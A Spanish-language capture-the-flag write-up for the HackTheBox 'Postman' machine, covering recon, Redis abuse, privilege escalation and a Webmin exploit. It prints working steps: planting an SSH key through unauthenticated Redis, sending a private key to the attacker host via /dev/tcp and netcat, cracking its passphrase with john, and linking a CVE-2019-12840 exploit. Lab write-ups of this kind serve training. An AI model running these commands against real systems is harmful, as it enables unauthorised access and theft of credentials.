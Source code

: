 ```yaml
---
title: HackTheBox - Postman
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Redis Exploitation', 'RCE Webmin (CVE-2019-12840)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Postman/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Postman Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Redis Exploitation, RCE Webmin (CVE-2019-12840)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Postman/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Postman/02-versions.png)

c. Empezaremos investigando alguna posible vulnerabilidad de **redis**, ya que la página web no tiene información relevante y poseemos credenciales para el servicio de **Webmin**

* Pentesting [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

Como si nos podemos conectar al servicio de redis, veremos si somos capaces de agregar una clave id_rsa pública, con el fin, de conectarnos por SSH

```bash
❯ pwd
/root/.ssh
❯ ssh-keygen -t rsa
❯ cat spaced_key.txt | redis-cli -h <IP Postman> -x set ssh_key
❯ redis-cli -h <IP Postman>
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
```

> Si tenemos algún error al ejecutar alguno de los comandos anteriores, debemos **reiniciar la máquina**
{: .prompt-info }

d. Ahora, ya seremos capaces de conectarnos al servicio **SSH** y empezar a enumerar el sistema para escalar privilegios

### Escalada de Privilegios 💹

a. Encontramos una clave **id_rsa** en el directorio opt, la cuál transferimos a nuestra máquina

```bash
redis@Postman:/opt$ cat < id_rsa.bak > /dev/tcp/10.10.14.18/4444
-----------------------------------------------------------------
❯ nc -lvnp 4444 > id_rsa
```

Esta clave está protegida con contraseña, así que extraeremos el hash con **ssh2john** para crackearlo

```bash
❯ ssh2john id_rsa > hash
❯ john hash -w=/usr/share/wordlists/rockyou.txt
id_rsa:computer2008
```

b. La contraseña obtenida es del usuario **Matt** y también sirve para conectarse al servicio Webmin

* Al convertirnos en **Matt** veremos que el propietario del proceso de webmin es **root**, además de ver la versión al momento de autenticarnos en Webmin

    ```bash
    Matt@Postman:/opt$ ps -faux | grep -i webmin
    <SNIP>
    root        723  0.0  3.1  95296 29256 ?        Ss   14:28   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
    ```

    ![](/assets/images/HTB/Easy/Postman/03-version.png)

Al buscar un exploit para esta versión de Webmin llegamos a [CVE-2019-12840](https://github.com/roughiz/Webmin-1.910-Exploit-Script)

c. Nos ponemos en escucha con **nc** y ejecutamos el script

![](/assets/images/HTB/Easy/Postman/04-exploit.png)
